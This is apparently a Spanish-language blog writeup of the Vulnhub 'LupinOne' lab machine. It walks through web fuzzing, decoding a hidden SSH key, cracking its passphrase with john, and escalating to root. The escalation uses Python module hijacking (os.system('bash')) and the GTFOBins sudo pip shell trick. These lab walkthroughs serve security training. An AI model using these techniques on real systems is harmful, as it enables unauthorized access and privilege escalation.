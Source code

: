 ```yaml
---
title: Vulnhub - LupinOne
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'LFI to RCE', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/LupinOne/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LupinOne Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **LFI to RCE, Path Hijacking**

### Fase de Reconocimiento 🧣

Identificamos la dirección IP de la **`Máquina LupinOne`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.24  08:00:27:56:a5:5c       PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/02-versions.png)

c. Antes de fuzzear con herramientas como **wfuzz, gobuster o dirbuster** usaremos el script **http-enum** de nmap

```bash
root@kali> nmap -p80 --script http-enum <IP>

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /image/: Potentially interesting directory w/ listing on 'apache/2.4.48 (debian)'
|_  /manual/: Potentially interesting folder
```

* En el fichero **robots.txt** vemos esto:

  ```bash
  User-agent: *
  Disallow: /~myfiles
  ```

* Si visitamos este directorio veremos un Error 404 por lo cual fuzzearemos por otro posible directorio.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/common.txt 'http://<IP>/~FUZZ/'

  000003667:   200        5 L      54 W       331 Ch      "secret" 
  ```

d. Vemos el contenido del fichero **`secret`**

```txt
Hello Friend, Im happy that you found my secret directory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64
```

* Fuzzeamos por múltiples extensiones de archivos.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 --hh=279 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,txt-php-zip 'http://<IP>/~secret/.FUZZ.FUZ2Z'

  000068287:   200        1 L      1 W        4689 Ch     "mysecret"
  ```

e. El contenido de este archivo **http://<IP>/~secret/.mysecret.txt** lo pasamos a [Cyberchef](https://gchq.github.io/CyberChef)

![](/assets/images/Vulnhub/Easy/LupinOne/03-cyberchef.png)

* Al pasar el contenido por **Base58** obtenemos una clave id_rsa encriptada.

* Extraemos el hash de la clave **id_rsa** y lo crackeamos con este [diccionario](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt) (Esto nos dan como pista en **/~secret/**)

  ```bash
  atacante@kali> chmod 600 id_rsa
  atacante@kali> ssh2john id_rsa > hash
  atacante@kali> john hash -w=fasttrack.txt

  P@55w0rd!
  ```

f. Nos autenticamos en el servicio **`ssh`**

```bash
atacante@kali> ssh icex64@192.168.100.24 -i id_rsa

icex64@LupinOne:~$ hostname -I
192.168.100.24 
```

### Escalada de Privilegios 💹

a. Listamos privilegios presentes en el archivo sudoers

```bash
icex64@LupinOne:~$ sudo -l

  (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

* **`/home/arsene/heist.py`**

  ```py
  import webbrowser

  print ("Its not yet ready to get in action")

  webbrowser.open("https://empirecybersecurity.co.mz")
  ```

b. Como no tenemos la capacidad de crear ficheros en el directorio **`/home/arsene`**, vemos si somos capaces de escribir en el fichero del módulo **`webbrowser`**

```bash
icex64@LupinOne:~$ find / -writable 2>/dev/null | grep -vE "^/proc|^/sys"

<SNIP>
/usr/lib/python3.9/webbrowser.py
<SNIP>
```

* Cambiamos el contenido de este fichero por 

  ```bash
  import os
  os.system("bash")
  ```

  > Esto con el fin de que al momento de ejecutar el script **heist.py**, el comando sea ejecutado por el usuario **`arsene`** y esto nos daría una bash.


* Ejecutamos el script

  ```bash
  icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  arsene@LupinOne:/home/icex64$
  ```

* Listamos privilegios que tengamos con este usuario

  ```bash
  arsene@LupinOne:/home/icex64$ sudo -l

    (root) NOPASSWD: /usr/bin/pip
  ```

c. Escalamos privilegios con [Gtfobins - pip](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
arsene@LupinOne:/home/icex64$ TF=$(mktemp -d)
arsene@LupinOne:/home/icex64$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:/home/icex64$ sudo pip install $TF
Processing /tmp/tmp.bD4rZoIdVG
# whoami
root
```